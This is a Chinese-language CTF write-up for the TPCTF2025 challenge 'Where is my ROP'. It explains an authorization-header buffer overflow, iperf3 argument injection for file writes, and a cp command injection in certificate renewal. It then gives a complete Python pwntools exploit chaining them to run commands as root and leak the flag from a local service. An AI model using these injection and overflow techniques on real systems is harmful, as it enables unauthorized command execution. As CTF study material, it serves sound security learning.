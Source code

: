 https://zq4mt4l88ne.feishu.cn/docx/ArMedC8xyo5sE0xTrWPc8aZVnfe?from=from_copylink

# Where is my ROP（15 Solves）

- 没有时间重写一个 http 服务器了，于是直接复用了在 qwb 中的 old_fashion_apache 的前端和认证顺序的代码
- 为了 apache fork 出来的进程可以使用真正的 tmp 目录，本题做了好多服务端 service 的配置，详细见 Dockerfile
- 为了让一个 www-data 的用户能够以 root 权限执行命令，本题采用进程间通信的模式，让 root 权限的 basement 与 cgi-bin 进行交互来完成。
- 本题的预期解是利用多段的文件写和带权限复制，实现简单的命令注入，并通过 ls 命令回传获取 flag 的文件名，再次将其拷贝到 web 目录下读取
- 非预期是 iperf3 自带的-F 命令可以直接将 flag 内容带出来，同时 flag 文件名改造的过于简单，导致选手可以正则通配出来。
- [题目源码](https://github.com/tp-ctf/TPCTF2025/tree/main/pwn-where-is-my-rop)

## 题目描述

login.cgi 和 logout.cgi 可以以未认证的状态访问 basement 的 1-3 号的命令:

![](static/ExyhbZPBporb5CxqdzMcl0CGnjg.png)

其他命令需要通过认证后的接口来执行（未在本题中列出）

我们会在向 login.cgi 进行 POST 的过程中将 payload 以 Authorization 的 header 进行传输，在 apache2.conf 中加入如下 CGIPassAuth 的指令，就可以把 header 中的 Authorization 以 HTTP_AUTHORIZATION 的形式传给 cgi-bin：

```
<Directory "/var/www/cgi-bin">
    AllowOverride None
    Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
    CGIPassAuth  On
    Require all granted
</Directory>
```

AUTHORIZATION 最多支持 4 个 128 字节的冒号分割字段，分别是 username password resetpass comfirm_pass ，按照与 basement 约定好的格式打包接可以进行交互了。

## 漏洞点

### AUTHORIZATION 解析存在 OOB

![](static/Y3qEbB49hoD61TxwpzYc6eZxnjh.png)

```
char dec_authorization[512] ;
__uint8_t remote_code ;
```

首先是 dec_len 指定为 512，但是 base64_decode 接收的 len 字段是 OUT 类型字段，由函数本体进行赋值，dec_authorization 是 512 字节数组，enc_authorization 最大 1024，存在缓冲区溢出，同时后面时 remote_code，所以可以通过这个 OOB 实现权限绕过，调用后面的 basement 函数。

### iperf3 存在任意文件写

![](static/KTZqbIsq2oqnSMxHimZcaP6QnPe.png)

iperf_client 中接收 ip 和 port，并直接写入到 cmd 里面执行，尽管会通过 isSafeCommandArg 进行过滤，但是点和斜杠 `./` 不会被过滤，同时 iperf3 有-T 和--logfile 的参数可以指定写入的内容和文件名，我们可以实现对任意文件的写

```
Server or Client:
  --logfile f               send output to a log file
Client specific:
  -T, --title str           prefix every output line with this string
```

### 证书更新存在任意文件拷贝

- Renew cert 函数中，首先执行 `/root/.acme.sh/acme.sh`，本题中 acme.sh 是空的脚本文件，暂时无法利用。
- 接下来会读取 `/tmp/acme.sh.log`，查看是否存在 `_on_issue_success`，成功后会执行目录拷贝：

```c
// 复制续期后的证书到指定目录 /var/cert/<dir>/
snprintf(command, sizeof(command),
         "cp -rpf /root/.acme.sh/%s /var/cert/%s/",
         domain, dir);
system(command);
```

- 这里同样存在命令注入，可以实现任意文件拷贝，这个 cp -rpf 代表的是保留源文件权限的拷贝，只要源文件有执行权限，新的文件也会被赋予执行权限。
- 最后清理 `/tmp/acme.sh.log`

## 漏洞利用

1. 首先 `/root/.acme.sh/acme.sh` 是带有执行权限的，因此我们只需要修改这个文件就可以实现简单的命令执行语句，例如 `ls ``/`，为了在 ban 掉输出和管道符条件下将命令记录下来，我们可以使用 nohup 命令，他会在生成一个 nohup.out
2. 然而 nohup.out 本身由 root 所有，并不允许让 www-data 用户来读取，为此我们需要进行一次权限覆盖
3. 攻击流程如下：

   1. 全程使用缓冲区溢出漏洞来制定调用码
   2. 首先覆盖 acme.sh，写入 `nohup ls ``/ #`
   3. 写入 `_on_issue_success` 并执行 `cp -rpf ``/``root/.acme.sh/acme.sh /nohup.out`
   4. 写入 `_on_issue_success` 并执行 `cp -rpf /nohup.out /var/www/html/`
   5. 访问 `http://ip:port/nohup.out` 获取 flag 的文件名 flaG
   6. 写入 `_on_issue_success` 并执行 `cp -rpf /flaG /var/www/html/`
   7. 访问 `http://ip``:port/` flaG 获取 flag

## EXP

```
# -*- coding: utf-8 -*-
from pwn import * # type: ignore
import os
import hashlib
import math
import socket
import base64

def batch_send(sock,payload,huge=0):
    if huge==1:
        sock.send=sock.write
    for i in range(0, len(payload),0x1000):
        if i+0x1000 < len(payload):
            sock.send(payload[i:i+0x1000])
        else:
            sock.send(payload[i:])

def build_http_req_str(method=b'POST',uri=b'',uri_arg=b'',post_arg=b'',host=b'', port=80,Content_Length=0,Authorization=b'',Content_Type=b'application/x-www-form-urlencoded'):
    payload = b"\r\n".join([
        b"%s %s%s HTTP/1.1" % (method,uri,uri_arg),
        b"Host: %s:%d" % (host, port),
        b"Authorization: %s" % (Authorization),
        b"Content-Length: %d" % (Content_Length),
        b"Content-Type: %s" % (Content_Type),
        b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0",
        b"Accept: */*",
        b"Accept-Language: en-US,en;q=0.5",
        b"Accept-Encoding: gzip, deflate, br",
        b"Connection: close",
        b"",
        b"%s" % (post_arg),
    ])
    return payload

def make_tcp_req(host,port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(1000.0)
    server_address = (host, port)
    print(f'Connecting to {server_address[0]} port {server_address[1]}')
    s.connect(server_address)
    return s

def send_payload_res(auth_payload):
    auth_payload = base64.b64encode(auth_payload)
    auth_payload = b'Basic '+auth_payload
    post_arg = b"id=abcdefghijklmnopqrstuvwx"
    payload = build_http_req_str(uri=b"/cgi-bin/login.cgi?login",host=host,port=port,Content_Length=len(post_arg),post_arg=post_arg,Authorization=auth_payload)
    sock=make_tcp_req(host,port)
    batch_send(sock,payload)
    response = sock.recv(0x1000)
    print('Received:', response.decode('utf-8'))
    sock.close()

def send_payload(auth_payload):
    auth_payload = base64.b64encode(auth_payload)
    auth_payload = b'Basic '+auth_payload
    post_arg = b"id=abcdefghijklmnopqrstuvwx"
    payload = build_http_req_str(uri=b"/cgi-bin/login.cgi?login",host=host,port=port,Content_Length=len(post_arg),post_arg=post_arg,Authorization=auth_payload)
    sock=make_tcp_req(host,port)
    batch_send(sock,payload)
    sock.close()

host = b'127.0.0.1'
port = 19980
def main():

    iperf_server = b'127.0.0.1'.rjust(0x7f,b'\x20') + b':' + b'22222' +b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00'+b'\x00'*(0x7f-5) + b'\x06'
    send_payload(iperf_server)

    iperf_client =  b'127.0.0.1'.rjust(0x7f,b'\x20') + b':' + b'22222 --logfile /root/.acme.sh/acme.sh -T "nohup ls / #"' +b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' +b'\x00'*(0x7f-56) + b'\x09'
    send_payload_res(iperf_client)

    iperf_client =  b'127.0.0.1'.rjust(0x7f,b'\x20') + b':' + b'22222 --logfile /tmp/acme.sh.log -T "_on_issue_success"' +b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' + b'\x00'*(0x7f-55)+ b'\x09'
    send_payload_res(iperf_client)
    cp_file = b'../../../../../root/.acme.sh/acme.sh' + b":" + b'../../../../../nohup.out #' + b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' +b'\x00'*(0xfe-36-26) + b'\x0b'
    send_payload_res(cp_file)

    iperf_client =  b'127.0.0.1'.rjust(0x7f,b'\x20') + b':' + b'22222 --logfile /tmp/acme.sh.log -T "_on_issue_success"' +b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' + b'\x00'*(0x7f-55)+ b'\x09'
    send_payload_res(iperf_client)
    echo_flag = b'g'.rjust(0x7f,b'g')+ b":" + b'h'.rjust(0x7f,b'g')+ b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' + b'\x0b'
    send_payload_res(echo_flag)

    iperf_client =  b'127.0.0.1'.rjust(0x7f,b'\x20') + b':' + b'22222 --logfile /tmp/acme.sh.log -T "_on_issue_success"' +b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' + b'\x00'*(0x7f-55)+ b'\x09'
    send_payload_res(iperf_client)
    cp_file = b'../../../../../nohup.out' + b":" + b'../../../../../var/www/html' + b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' +b'\x00'*(0xfe-24-27) + b'\x0b'
    send_payload_res(cp_file)
    # then we can get the flag's name from http://localhost:19980/nohup.out

    iperf_client =  b'127.0.0.1'.rjust(0x7f,b'\x20') + b':' + b'22222 --logfile /tmp/acme.sh.log -T "_on_issue_success"' +b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' + b'\x00'*(0x7f-55)+ b'\x09'
    send_payload_res(iperf_client)
    cp_file = b'../../../../../the_flaG_is_here056480436103548697634' + b":" + b'../../../../../var/www/html' + b':' + b'c'*0x7f+b':' + b'd'*(0x7f) +b'\x00' +b'\x00'*(0xfe-52-27) + b'\x0b'
    send_payload_res(cp_file)
    # then we can get the flag from http://localhost:19980/the_flaG_is_here056480436103548697634

if __name__ == "__main__":
    main()
```
